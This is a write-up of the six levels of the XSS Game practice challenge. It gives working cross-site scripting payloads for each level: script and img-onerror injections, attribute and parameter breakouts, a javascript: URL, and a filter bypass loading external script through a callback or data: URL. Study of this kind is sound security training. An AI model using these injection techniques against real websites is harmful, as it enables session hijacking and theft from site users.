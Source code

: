 # XSS Game


<!-- vim-markdown-toc GFM -->

* [level 1](#level-1)
* [level 2](#level-2)
* [level 3](#level-3)
* [level 4](#level-4)
* [level 5](#level-5)
* [level 6](#level-6)

<!-- vim-markdown-toc -->

## level 1

`<script>alert("xss")</script>`

## level 2

`<img src="1" onerror="alert('xss')" >`

The hint said that use onerror, so use `<img>`

## level 3

We can see from the source code,

```
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

It use the `<img>`. So we can use `'`to close `src='/xx/xx/xx` and use `//`to make the rest useless.

`https://xss-game.appspot.com/level3/frame#' onerror='alert("xss")';//`

## level 4

```html
 <form action="" method="GET">
    <input id="timer" name="timer" value="3">
    <input id="button" type="submit" value="Create timer"> </form>
</form>
```

```
function startTimer(seconds) {
	seconds = parseInt(seconds) || 3;
    setTimeout(function() {
        window.confirm("Time is up!");
        window.history.back();
    }, seconds * 1000);
}
```

`img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />`

`3'+alert());//`

Here actually we use `'`to close `'{{`, because there is `stratTime()`, it will try to calculate it as `3+f(x)`, so the `alert()`will be executed.

## level 5

`setTimeout(function() { window.location = '{{ next }}'; }, 5000);`

Here is `{{}}`, can execute code in it.
So type in `javascript:alert("xss")`at Enter email bar.

## level 6

The mission 
> Find a way to make the application request an external file which will cause it to execute an alert().

```javascript
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```

But `http` can't be here.

Sometimes we will use `src="//xxx.com`, so do here.
And we can alse use `HTTP`

Here we now the original url is `https://xss-game.appspot.com/level6/frame/#`
and the gadget.js can be loaded.

So `https://xss-game.appspot.com/level6/frame#HTTPS://www.google.com/jsapi?callback=alert`
`https://xss-game.appspot.com/level6/frame/#//www.google.com/jsapi?callback=alert`
Are both are ok.

Plus
Data URLs, URLs prefixed with the data: scheme, allow content creators to embed small files inline in documents.

Data URLs are composed of four parts: a prefix (data:), a MIME type indicating the type of data, an optional base64 token if non-textual, and the data itself: `data:[<mediatype>][;base64],<data>`
The mediatype is a MIME type string, such as 'image/jpeg' for a JPEG image file. If omitted, defaults to text/plain;charset=US-ASCII

Usually, we can use `data:text/html,<script>alert('xss');</script>`
But here it's no need, we just have to contain a file with the js code `alert()` inside, so do as below:
`https://xss-game.appspot.com/level6/frame/#data:text/plain,alert('xss')`
